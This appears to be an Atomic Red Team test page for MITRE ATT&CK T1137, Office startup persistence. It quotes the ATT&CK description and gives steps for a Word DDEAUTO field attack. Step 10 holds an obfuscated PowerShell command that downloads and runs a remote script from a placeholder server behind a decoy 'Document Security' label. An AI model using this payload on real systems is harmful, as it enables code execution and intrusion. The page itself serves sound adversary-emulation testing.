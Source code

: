 # T1137 - Office Application Startup
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1137)
<blockquote>Microsoft Office is a fairly common application suite on Windows-based operating systems within an enterprise network. There are multiple mechanisms that can be used with Office for persistence when an Office-based application is started.

### Office Template Macros

Microsoft Office contains templates that are part of common Office applications and are used to customize styles. The base templates within the application are used each time an application starts. (Citation: Microsoft Change Normal Template)

Office Visual Basic for Applications (VBA) macros (Citation: MSDN VBA in Office) can be inserted into the base template and used to execute code when the respective Office application starts in order to obtain persistence. Examples for both Word and Excel have been discovered and published. By default, Word has a Normal.dotm template created that can be modified to include a malicious macro. Excel does not have a template file created by default, but one can be added that will automatically be loaded.(Citation: enigma0x3 normal.dotm)(Citation: Hexacorn Office Template Macros) Shared templates may also be stored and pulled from remote locations.(Citation: GlobalDotName Jun 2019) 

Word Normal.dotm location:<code>C:\Users\\(username)\AppData\Roaming\Microsoft\Templates\Normal.dotm</code>

Excel Personal.xlsb location:<code>C:\Users\\(username)\AppData\Roaming\Microsoft\Excel\XLSTART\PERSONAL.XLSB</code>

Adversaries may also change the location of the base template to point to their own by hijacking the application's search order, e.g. Word 2016 will first look for Normal.dotm under <code>C:\Program Files (x86)\Microsoft Office\root\Office16\</code>, or by modifying the GlobalDotName registry key. By modifying the GlobalDotName registry key an adversary can specify an arbitrary location, file name, and file extension to use for the template that will be loaded on application startup. To abuse GlobalDotName, adversaries may first need to register the template as a trusted document or place it in a trusted location.(Citation: GlobalDotName Jun 2019) 

An adversary may need to enable macros to execute unrestricted depending on the system or enterprise security policy on use of macros.

### Office Test

A Registry location was found that when a DLL reference was placed within it the corresponding DLL pointed to by the binary path would be executed every time an Office application is started (Citation: Hexacorn Office Test)

<code>HKEY_CURRENT_USER\Software\Microsoft\Office test\Special\Perf</code>

### Add-ins

Office add-ins can be used to add functionality to Office programs. (Citation: Microsoft Office Add-ins)

Add-ins can also be used to obtain persistence because they can be set to execute code when an Office application starts. There are different types of add-ins that can be used by the various Office products; including Word/Excel add-in Libraries (WLL/XLL), VBA add-ins, Office Component Object Model (COM) add-ins, automation add-ins, VBA Editor (VBE), Visual Studio Tools for Office (VSTO) add-ins, and Outlook add-ins. (Citation: MRWLabs Office Persistence Add-ins)(Citation: FireEye Mail CDS 2018)

### Outlook Rules, Forms, and Home Page

A variety of features have been discovered in Outlook that can be abused to obtain persistence, such as Outlook rules, forms, and Home Page.(Citation: SensePost Ruler GitHub) These persistence mechanisms can work within Outlook or be used through Office 365.(Citation: TechNet O365 Outlook Rules)

Outlook rules allow a user to define automated behavior to manage email messages. A benign rule might, for example, automatically move an email to a particular folder in Outlook if it contains specific words from a specific sender. Malicious Outlook rules can be created that can trigger code execution when an adversary sends a specifically crafted email to that user.(Citation: SilentBreak Outlook Rules)

Outlook forms are used as templates for presentation and functionality in Outlook messages. Custom Outlook Forms can be created that will execute code when a specifically crafted email is sent by an adversary utilizing the same custom Outlook form.(Citation: SensePost Outlook Forms)

Outlook Home Page is a legacy feature used to customize the presentation of Outlook folders. This feature allows for an internal or external URL to be loaded and presented whenever a folder is opened. A malicious HTML page can be crafted that will execute code when loaded by Outlook Home Page.(Citation: SensePost Outlook Home Page)

To abuse these features, an adversary requires prior access to the user’s Outlook mailbox, either via an Exchange/OWA server or via the client application. Once malicious rules, forms, or Home Pages have been added to the user’s mailbox, they will be loaded when Outlook is started. Malicious Home Pages will execute when the right Outlook folder is loaded/reloaded while malicious rules and forms will execute when an adversary sends a specifically crafted email to the user.(Citation: SilentBreak Outlook Rules)(Citation: SensePost Outlook Forms)(Citation: SensePost Outlook Home Page)</blockquote>

## Atomic Tests

- [Atomic Test #1 - DDEAUTO](#atomic-test-1---ddeauto)


<br/>

## Atomic Test #1 - DDEAUTO

TrustedSec - Unicorn - https://github.com/trustedsec/unicorn

SensePost DDEAUTO - https://sensepost.com/blog/2017/macro-less-code-exec-in-msword/

Word VBA Macro

[Dragon's Tail](https://github.com/redcanaryco/atomic-red-team/tree/master/ARTifacts/Adversary/Dragons_Tail)

**Supported Platforms:** Windows



#### Run it with these steps! 
1. Open Word

2. Insert tab -> Quick Parts -> Field

3. Choose = (Formula) and click ok.

4. Once the field is inserted, you should now see "!Unexpected End of Formula"

5. Right-click the Field, choose "Toggle Field Codes"

6. Paste in the code from Unicorn or SensePost

7. Save the Word document.

9. DDEAUTO c:\\windows\\system32\\cmd.exe "/k calc.exe"

10. DDEAUTO "C:\\Programs\\Microsoft\\Office\\MSWord\\..\\..\\..\\..\\windows\\system32\\{ QUOTE 87 105 110 100 111 119 115 80 111 119 101 114 83 104 101 108 108 }\\v1.0\\{ QUOTE 112 111 119 101 114 115 104 101 108 108 46 101 120 101 } -w 1 -nop { QUOTE 105 101 120 }(New-Object System.Net.WebClient).DownloadString('http://<server>/download.ps1'); # " "Microsoft Document Security Add-On"





<br/>
